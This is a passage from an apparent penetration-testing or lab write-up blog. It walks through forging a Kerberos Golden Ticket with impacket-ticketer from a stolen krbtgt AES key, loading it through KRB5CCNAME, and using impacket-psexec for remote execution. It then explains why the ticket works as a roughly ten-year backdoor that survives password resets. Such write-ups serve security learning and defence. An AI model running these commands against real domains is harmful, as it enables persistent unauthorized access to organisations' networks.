 +Note+: I store `krbtgt:aes256` value in the variable `$krbtgt` and have also stored the domain sid in `$sid`
![](/ox-hugo/2025-09-18-170838_.png)

Now we use `impacket-ticketer` to create the Golden Ticket:

```shell
#Using -aeskey
impacket-ticketer -aesKey $krbtgt -domain-sid $sid -domain $domain Administrator
```

{{< figure src="/ox-hugo/2025-09-18-121408_.png" >}}

- Export the ticket to the\* `KRB5CCNAME` Variable:



```shell
export KRB5CCNAME=./Administrator.ccache
```

Let's validate the ticket works by using the ticket for connecting via `psexec`

```shell
impacket-psexec -k -no-pass $machine.$domain
```

{{< figure src="/ox-hugo/2025-09-18-121433_.png" >}}

#### Why create a golden ticket? {#why-create-a-golden-ticket}

"But bloodstiller why are you making a golden ticket if you have the admin hash?" Glad you asked:

Creating a Golden Ticket during an engagement is a reliable way to maintain access over the long haul. Here’s why:

`KRBTGT` **Hash Dependence**:

Golden Tickets are generated using the `KRBTGT` account hash from the target’s domain controller.

Unlike user account passwords, `KRBTGT` hashes are rarely rotated (and in many organizations, +they are never changed+), so in most cases the Golden Ticket remains valid indefinitely.

`KRBTGT` **The Key to It All (for upto 10 years)**:

A Golden Ticket can allow you to maintain access to a system for up to 10 years (yeah, you read that right the default lifespan of a golden ticket is 10 years) without needing additional credentials.

This makes it a reliable backdoor, especially if re-access is needed long after initial entry.

For instance here is the standard Administrator ticket exported from the ESC1 attack:
![](/ox-hugo/2025-09-18-164200_.png)
As you can see it's valid for 24 hours.

And here is the Golden ticket made with the KRBTGT account, it's valid for just shy of 10 years.
![](/ox-hugo/2025-09-18-164314_.png)

**Think about it**: even if they reset every user’s password (including the administrator etc) your Golden Ticket is still valid because it’s tied to the `KRBTGT` account, not individual users.
